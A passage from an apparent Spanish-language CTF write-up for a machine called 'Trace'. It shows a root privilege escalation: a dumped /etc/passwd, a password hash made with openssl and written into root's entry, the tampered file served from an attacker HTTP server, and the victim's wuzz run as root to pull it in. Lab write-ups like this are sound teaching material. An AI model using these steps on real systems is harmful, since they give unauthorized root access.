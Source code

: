 ```shell
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
_rpc:x:106:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:107:65534::/var/lib/nfs:/usr/sbin/nologin
yan:x:1000:1000:yan,,,:/home/yan:/bin/bash
nel:x:1001:1001::/home/nel:/bin/bash
```
Ahora crearemos una clave con openssl para el /etc/passwd
```shell
openssl passwd
Password: 
Verifying - Password: 
$1$ikTDnOVE$6dJA58VzV.Wc9nN.ivCbt0
```
Copiamos el hash resultante y lo intercambiamos por la primera x después del root en el passwd que copiamos.
```shell
$ cat passwd 
root:$1$ikTDnOVE$6dJA58VzV.Wc9nN.ivCbt0:0:0:root:/root:/bin/bash
...
...
```
Ahora creamos un servidor web con python  en el directorio en donde esté el passwd que copiamos.
```shell
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
En la máquina víctima ejecutamos como root el wuzz.
<img class="img" src="/assets/img/machines/Trace/10.png" width="1200">
Nos sale esta interfaz, en el URL pondremos la dirección de nuestro servidor web apuntando al archivo passwd.